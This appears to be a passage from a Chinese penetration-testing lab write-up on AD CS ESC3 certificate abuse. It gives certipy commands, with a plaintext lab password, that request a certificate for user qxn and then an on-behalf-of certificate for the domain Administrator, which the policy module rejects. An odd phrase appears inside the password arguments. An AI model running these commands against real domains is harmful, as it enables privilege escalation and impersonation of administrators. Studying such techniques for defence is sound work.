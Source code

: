 [![](assets/1708508972-a9bae84a6b2040d6ae22bf26baa095a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170156-b2c0dc76-cfce-1.png)

请求域用户 qxn 的证书

```bash
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target ADCS.penson.org -template PensonESC3
```

[![](assets/1708508972-28bb5a67d94011484a8ee1719a82a9c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170209-ba869eb4-cfce-1.png)

请求 adminstrator 证书

```bash
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -ca penson-ADCS-CA -target ADCS.penson.org -template User -on-behalf-of 'PENSON\Administrator' -pfx qxn.pfx
```

发现被策略模块拒绝

[![](assets/1708508972-3c5c22dfbec96d741d432c7284ee70e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170231-c7aaca2a-cfce-1.png)
